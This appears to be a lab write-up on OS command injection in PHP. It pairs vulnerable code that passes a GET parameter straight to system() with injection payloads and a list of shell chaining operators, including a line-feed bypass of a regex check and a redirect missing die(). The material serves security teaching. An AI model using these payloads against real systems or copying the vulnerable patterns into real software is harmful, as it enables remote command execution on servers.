 #### 1.1. Example 1

Payloads:
```
$host/example1.php?ip=127.0.0.2%26%26echo;echo;whoami
$host/example1.php?ip=127.0.0.2;echo;echo;whoami
$host/example1.php?ip=127||whoami
$host/example1.php?ip=127;whoami
$host/example1.php?ip=127.0.0.2;sleep+5
```

Code:
```php
system("ping -c 2 ".$_GET['ip']);
```


#### 1.2. Example 2

Payload (hex encoded line feed LF `\n` + `/m` regex multi line):
```
$host/example2.php?ip=127.0.0.1%0aecho+1
```


Code:
```php
if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/m', $_GET['ip']))) { die("Invalid IP address"); }
system("ping -c 2 ".$_GET['ip']);
```


#### 1.3. Example 3

Payload:
```
$host/example3.php?ip=127%7C%7Cwhoami
```

Code:
```php
if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/', $_GET['ip']))) {
     header("Location: example3.php?ip=127.0.0.1");
    // redirect to other page
    // die() is missing
}
// but if we don't follow the redirect system function will be called
system("ping -c 2 ".$_GET['ip']);
```

#### 1.4. Other basic payloads

```
`command`
$(command)
; command
| command
&& command
|| command
> /tmp/test
< /tmp/test
```
